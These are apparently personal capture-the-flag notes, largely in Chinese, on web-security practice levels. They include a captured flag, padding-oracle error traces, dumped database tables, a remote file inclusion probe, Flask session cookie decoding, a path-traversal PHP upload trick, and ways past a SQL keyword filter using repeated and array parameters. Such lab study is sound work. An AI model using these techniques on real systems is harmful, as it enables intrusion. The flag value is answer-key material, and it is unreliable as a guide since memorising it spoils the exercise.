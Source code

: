

对新加、修改的内容格外注意，测试逻辑是否正确实现。
在出错的地方很容易再犯错。

* Introduction
  先获得完整的功能列表，然后像攻击者一样思考，设定一个目的，想达到什么样的效果。
  设定目标优先级。

* Encrypted Pastebin
^FLAG^a810c4f2706848f951204afdf6b9a46458a76cfd50b16d9d0cabca04a25c1e71$FLAG$
Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 46, in decryptLink
    data = b64d(data)
  File "./common.py", line 11, in <lambda>
    b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))
  File "/usr/local/lib/python2.7/base64.py", line 328, in decodestring
    return binascii.a2b_base64(s)
Error: Incorrect padding

Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 48, in decryptLink
    cipher = AES.new(staticKey, AES.MODE_CBC, iv)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/AES.py", line 95, in new
    return AESCipher(key, *args, **kwargs)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/AES.py", line 59, in __init__
    blockalgo.BlockAlgo.__init__(self, _AES, key, *args, **kwargs)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/blockalgo.py", line 141, in __init__
    self._cipher = factory.new(key, *args, **kwargs)
ValueError: IV must be 16 bytes long


* File Inclusion
  php warning: include() failed to open stream
  
  
* Photo Gallery
Database: level5                       
Table: photos                                          
[3 entries]   
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                    |   
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                    |
| 2  | Purrfect         | 1      | files/purrfect.jpg                    |
| 3  | Invisible        | 1      | 81e78101746ae78a93868a529b3ad715136761e29594d8f750953f0880981d9c |
+----+------------------+--------+------------------------------------------------------------------+

Database: level5         
Table: albums                    
[1 entry]               
+----+---------+                          
| id | title   |        
+----+---------+ 
| 1  | Kittens |

* Cody's First Blog
  http://35.190.155.168:5001/ee2b7eb1b5/?page=http://www.bing.com/test
 <b>Notice</b>:  Undefined variable: title in <b>/app/index.php</b> on line <b>30</b><br />
</h1>
		<br />
<b>Warning</b>:  include(): php_network_getaddresses: getaddrinfo failed: Name or service not known in <b>/app/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(http://www.bing.com/test.php): failed to open stream: php_network_getaddresses: getaddrinfo failed: Name or service not known in <b>/app/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'http://www.bing.com/test.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in <b>/app/index.php</b> on line <b>21</b><br /> 

  此页面未作验证
   /?page=admin.inc

* ticketastic
Database: level7
Table: users
[7 entries]
+----+--------------------+----------+
| id | username           | password |
+----+--------------------+----------+
Database: level7                                                         
Table: tickets                                                                                            
[6 entries]                           
| id | body | reply | title |
|----+------+-------+-------|

Set-Cookie: session_level7a=eyJ1c2VyIjoiYWRtaW4ifQ.XEWTDQ.7EGcPbqmlMaWqOlUVIAD4QT7JM8; HttpOnly; Path=/
Set-Cookie: session_level7a=eyJ1c2VyIjoidGVzdCJ9.XEWfwA.s8cUQJXpGfV1F01NOR7T22STv9w; HttpOnly; Path=/
.XEWP0A.nn_-oniMwm-noZ9GotoDfkwiBlE

(first admin-ss)
"eyJ1c2VyIjoiYWRtaW4ifQ.XEW9vg.vpLMmHy5dpSPG-IVgoM_SqB5wHU"

(String. (base64/decode (first admin-ss)))
"{\"user\":\"admin\"}�[�ྒ̘|�v�����?J�y�u"
eyJ1c2VyIjoidXRlc3QifQ.XEW-Ng.JRi_2pOjIp9oFzAJMFLIeAQUbO4
flask的session第一个点前面的是payload,base64编码，如果以点开头，再用zlib解压。
中间是过期时间，最后是最重要的校验，用APP_KEY加密，根据payload和过期时间计算，进行校验。

* sequence
  integer-sequence-learning

* Model E1337 - Rolling Code Lock
  /admin /get-config

* TempImage
  上传修改文件路径../../test.php
  修改png文件内容，php文件头不修改，包含php代码。


* jiandan
  http://ctf5.shiyanbar.com/web/jiandan/index.php

  提交多个Id值，最后一个生效
  id=unionss&id=test&id=select&submit=Login

  php提交数组：
  id[0]=unionss&id[1]=test&id[2]=select&submit=Login
  (string)转换后变为'Array'

   $sql="select * from users limit ".$info['id'].",0";

  test.php
    $id = (string)$_POST['id'];
    if(sqliCheck($id))

function sqliCheck($str){
	if(preg_match("/\\\|,|-|#|=|~|union|like|procedure/i",$str)){
		return 1;
	}
	return 0;
}

   
  只能构造--前面部分的，无法改变id的值
  a:1:{s:2:"id";s: -- 0:"";}
  可以构造一个字符串，php用数组访问['id']会返回第一个字符,只有一个字符，无法使用。

  现在知道每次解密后的结果，知道加密数据，直接xor就可以获得中间值，不需要oracle,就是miracle啊。

